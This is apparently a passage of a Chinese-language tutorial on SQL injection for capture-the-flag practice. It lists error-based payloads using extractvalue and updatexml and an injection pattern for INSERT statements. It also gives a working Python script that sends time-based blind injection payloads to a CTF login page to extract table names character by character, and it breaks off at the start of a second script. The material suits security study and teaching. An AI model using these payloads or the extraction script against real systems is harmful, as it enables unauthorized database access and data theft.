 <p>payload 利用方法 必须使其成为关键语句即where的决定权在payload中 <br>
例如：</br></p>
<pre class="prettyprint"><code class="language-sql hljs "> - where 1=1 and payload
 - where 1=2 or payload
 - where payload</code></pre>
<p><a href="http://www.cnblogs.com/xdans/p/5412468.html" target="_blank">这里有原理的解释</a> <br>
 - extractvalue <br>
payload</br></br></p>
<pre class="prettyprint"><code class="language-sql hljs ">extractvalue(1,concat(0x5c,(<span class="hljs-operator"><span class="hljs-keyword">select</span> <span class="hljs-number">1</span>)))
extractvalue(<span class="hljs-number">1</span>,concat(<span class="hljs-number">0x5c</span>,(<span class="hljs-keyword">select</span> <span class="hljs-number">1</span>),<span class="hljs-number">0x5c</span>,<span class="hljs-number">1</span>))</span></code></pre>
<p> <br>
 - updatexml <br>
payload</br></br></img></p>
<pre class="prettyprint"><code class="language-sql hljs ">updatexml(1,concat(0x5c,(<span class="hljs-operator"><span class="hljs-keyword">select</span> <span class="hljs-number">1</span>)),<span class="hljs-number">0</span>)
updatexml(<span class="hljs-number">1</span>,concat(<span class="hljs-number">0x5c</span>,(<span class="hljs-keyword">select</span> <span class="hljs-number">1</span>),<span class="hljs-number">0x5c</span>,<span class="hljs-number">1</span>),<span class="hljs-number">0</span>)</span></code></pre>
<p>最近又出来了<code>insert update</code>的报错注入知识点如下 <br>
<code>or 注入语句 or</code> <br>
整体式子为 <br>
<code>INSERT INTO users (id, username, password) VALUES (2,'' or 注入语句 or'', '');</code></br></br></br></p>
<h2 id="3盲注">（3）盲注</h2>
<p>一般都是寻找盲注点，找到payload,利用payload <br>
在这里给出几个爆破脚本</br></p>
<pre class="prettyprint"><code class="language-python hljs "><span class="hljs-keyword">import</span> requests
url=<span class="hljs-string">r'http://web.jarvisoj.com:32787/login.php'</span>
string=<span class="hljs-string">''</span>
dic=<span class="hljs-string">'0123456789abcdefghijklmnopqrstuvwxyz'</span>
<span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> range(<span class="hljs-number">1</span>,<span class="hljs-number">33</span>):
    <span class="hljs-keyword">for</span> j <span class="hljs-keyword">in</span> dic:
        id=<span class="hljs-string">"/*'XOR(if(ord((select/**/substr(table_name,{0},1)/**/from/**/information_schema.tables/*!where*/table_schema=database()))={1},sleep(3),0))OR'*/"</span>.format(str(i),ord(j))
        data={
            <span class="hljs-string">'username'</span>:id,
            <span class="hljs-string">'password'</span>: <span class="hljs-number">1</span>
        }
        <span class="hljs-keyword">print</span> j
        s=requests.post(url=url,data=data)
        sec=s.elapsed.seconds
        <span class="hljs-keyword">if</span> sec &gt; <span class="hljs-number">2</span>:
            string+=j
            <span class="hljs-keyword">break</span>
    <span class="hljs-keyword">print</span> string</code></pre>
<pre class="prettyprint"><code class="language-python hljs ">
<span class="hljs-keyword">import</span> requests
cookies={
        <span class="hljs-string">'PHPSESSID'</span>: <span class="hljs-string">'944d46747cd9059f63dc2e103b2fe31a'</span>
}
